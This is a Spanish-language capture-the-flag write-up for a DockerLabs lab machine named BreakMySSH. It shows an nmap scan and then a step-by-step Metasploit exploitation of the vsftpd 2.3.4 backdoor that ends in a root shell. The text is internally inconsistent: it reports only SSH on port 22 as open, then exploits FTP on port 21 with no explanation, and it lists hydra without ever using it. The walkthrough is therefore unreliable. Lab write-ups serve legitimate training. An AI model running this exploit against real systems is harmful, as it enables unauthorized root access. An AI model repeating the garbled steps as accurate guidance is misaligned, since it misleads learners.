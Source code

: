 # BreakMySSH
**Herramientas y recursos usados**
- nmap
- searchsploit
- hydra

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN BreakMySSH`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo
![BMS_1](https://github.com/giustiand/DockerLabs-Writeups/blob/main/MuyF%C3%A1cil/.images/BreakMySSH/BMS_1.jpg)  
El único puerto abierto es el 22, que corresponde al servicio SSH.
Si hacemos una rápida busqueda en Google podemos observar que la versión de OpenSSH 7.7 tiene la vulnerabilidad de "user enumeration".  
![BMS_2](https://github.com/giustiand/DockerLabs-Writeups/blob/main/MuyF%C3%A1cil/.images/BreakMySSH/BMS_2.jpg)  

`searchsploit vsftpd 2.3.4`  
```
Exploit Title                                           Path
-----------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)   unix/remote/17491.rb
-----------------------------------------------------------------------------------
```
Encontramos 2 exploits, uno con extensión .rb que podemos utilizar a través de Metasploit.  
Iniciamos Metasploit y buscamos de nuevo la vulnerabilidad encontrada anteriormente con el comando `search`.
```
msf6 > search vsftp 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```
Ahora utilizaremos el comando `use` para seleccionar este exploit.
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Con el comando `show options` podemos ver las informaciones necesarias para ejecutar el exploit.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```
En este caso solo hará falta insertar esta información:
- RPORT -> Puerto 21 (FTP) de la máquina víctima (que ya está cumplimentado)
- RHOSTS -> Dirección IP de la máquina víctima (172.17.0.2)

Para ello usaremos el comando `set`  
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Vemos si se han aplicado los cambios insertados:
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.17.0.2       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Por último, ejecutaremos el exploit con el comando `run`.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:38103 -> 172.17.0.2:6200) at 2024-06-16 15:59:31 -0400

id
uid=0(root) gid=0(root) groups=0(root)
```
Listo! Ya somos root!
